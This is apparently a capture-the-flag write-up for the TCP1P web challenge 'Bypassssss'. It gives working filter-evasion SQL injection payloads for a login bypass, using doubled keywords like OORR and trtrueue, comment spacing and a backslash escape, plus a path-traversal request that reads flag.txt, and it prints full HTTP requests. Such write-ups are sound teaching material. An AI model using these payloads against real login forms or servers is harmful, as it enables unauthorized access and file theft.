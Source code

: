 # Bypassssss

## Description

> I used to have a website but unfortunately my website always gets hacked :(. But now I'm pretty sure they won't break into my website, right? right?!?!
>
> <http://ctf.tcp1p.com:45679>
>
> Attachment: dist.zip

## Flag

TCP1P{fR4gm3nTEd_SqL_1Nj3ction_and_lfi!?!1d9f3kd8cxm}

## Solution

Step1: Login Authentication Bypass

- Escape single quote (`'`) with a backslash (`\`)
- replace `OORR` to `OR` with `'/OR/i'` pattern. same for `true`
- Avoid Whitespace with comment out (`/**/`)
- Avoid last single quote (`'`) by using `#`

generated query:

- `SELECT * FROM admin WHERE username = '\' AND password = '/**/OR/**/true#'`

same to:

- `SELECT * FROM admin WHERE username = 'foobar' OR true`

```text
POST /check-login.php HTTP/1.1
Host: a
Cookie: PHPSESSID=ssv726vhc1lf1j09d47kn6ftuc
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

username=\&password=/**/OORR/**/trtrueue#


```

Step2: Path Traversal

```text
GET /viewer.php?image=...//...//...//...//...//flag.txt HTTP/1.1
Host: a
Cookie: PHPSESSID=ssv726vhc1lf1j09d47kn6ftuc
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

## References

- <https://portswigger.net/support/sql-injection-bypassing-common-filters>
- <https://book.hacktricks.xyz/pentesting-web/login-bypass>
- <https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass>
  > 'oR/**/2#
